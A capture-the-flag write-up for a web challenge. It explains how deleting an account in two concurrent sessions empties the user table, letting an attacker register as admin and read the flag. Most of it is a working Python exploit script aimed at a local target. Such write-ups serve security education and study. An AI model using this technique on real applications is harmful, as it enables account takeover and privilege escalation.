 + In this challenge, we have the functionality to login or register a new user
+ After logging in we can check our profile, delete the profile, get flag which can be done only by admin and then logout
+ This application uses sqlite database
+ In POST route /user/:username/delete, we can delete our own profile. It’ll first check the logged in username is admin or the same username as the POST parameter’s value.Then, it’ll find the username’s data. Finally, delete the user’s data and destroy the session.
+ If, we login to the same account with two different sessions, if we delete the account in the first session, the second session is still valid, thus the delete profile route is vulnerable to business logic vulnerability, where it doesn’t check the current session’s user is deleted or not.
+ ![image](https://github.com/Avanthikaanand/My-Writeups/assets/80388135/d0cf5f21-4fef-4b40-9307-ccc99fdf7c85)
As you can see, table Users is deleted, and our new admin user is inserted!!

**Solve.py**
```
#!/usr/bin/env python3
import requests
from base64 import b64encode
from bs4 import BeautifulSoup

class Exploit:
    def __init__(self, baseUrl, isLocal, basicAuthUsername, basicAuthPassword):
        self.baseUrl = baseUrl
        self.isLocal = isLocal
        self.basicAuthUsername = basicAuthUsername
        self.basicAuthPassword = basicAuthPassword

    def basicAuth(self):
        token = b64encode(f'{self.basicAuthUsername}:{self.basicAuthPassword}'.encode('utf-8')).decode('ascii')
        return f'Basic {token}'

    def sendRequest(self, session, method, endpoint, data=None):
        isPostMethod = True if method.lower() == 'post' else False
        isGetMethod = True if method.lower() == 'get' else False
        headers = {'Authorization' : self.basicAuth()} if basicAuthUsername is not None and basicAuthPassword is not None else None

        if isPostMethod:
            if self.isLocal:
                response = session.post(f'{self.baseUrl}{endpoint}', data=data)
                return response.text

            response = session.post(f'{self.baseUrl}{endpoint}', data=data, headers=headers)
            return response.text

        if isGetMethod:
            if self.isLocal:
                response = session.get(f'{self.baseUrl}{endpoint}')
                return response.text

            response = session.get(f'{self.baseUrl}{endpoint}', headers=headers)
            return response.text

if __name__ == '__main__':
    isLocal = True
    basicAuthUsername = None
    basicAuthPassword = None
    baseUrl = 'http://localhost:8600'
    exploit = Exploit(baseUrl, isLocal, basicAuthUsername, basicAuthPassword)

    session1 = requests.Session()
    session2 = requests.Session()
    # Register an account
    username = 'foo'
    password = 'bar'
    registerData = {
        'username': username,
        'password': password,
        'profile': 'foobar'
    }
    print(f'[*] Registering new account "{username}" in session 1')
    exploit.sendRequest(session1, 'POST', '/register', registerData)
    
    # Login to the account with 2 different session
    loginData = {
        'username': username,
        'password': password
    }
    print(f'[*] Logging in to new account "{username}" in session 1')
    exploit.sendRequest(session1, 'POST', '/login', loginData)
    print(f'[*] Logging in to new account "{username}" in session 2')
    exploit.sendRequest(session2, 'POST', '/login', loginData)

    # Delete the first and second session's user
    deleteUserEndpoint = f'/user/{username}/delete'
    print(f'[*] Deleting new account "{username}" in session 1')
    exploit.sendRequest(session1, 'POST', deleteUserEndpoint)
    print(f'[*] Deleting new account "{username}" in session 2')
    exploit.sendRequest(session2, 'POST', deleteUserEndpoint)

    # Register our new "admin" user as the `Users` table is deleted
    overwriteAdminUserData = {
        'username': 'admin',
        'password': 'admin',
        'profile': 'never_gonna_give_you_up'
    }
    print(f'[*] Overwriting old admin user in session 1')
    overwriteAdminUserResponse = exploit.sendRequest(session1, 'POST', '/register', overwriteAdminUserData)
    if 'user exists' in overwriteAdminUserResponse:
        print(f'[-] Failed to overwrite the admin user...')
        exit()

    # Get the flag as the new admin user
    print(f'[*] Getting the flag in session 1')
    flagResponse = exploit.sendRequest(session1, 'GET', '/flag')
    if 'The flag is:' not in flagResponse:
        print(f'[-] Failed to get the flag...')
        exit()

    soup = BeautifulSoup(flagResponse, 'html.parser')
    flag = soup.code.get_text()
    print(f'[+] Flag: {flag}')
```


Original writeup:
+https://siunam321.github.io/ctf/zer0pts-CTF-2023/web/Warmuprofile/
+ https://portswigger.net/web-security/logic-flaws
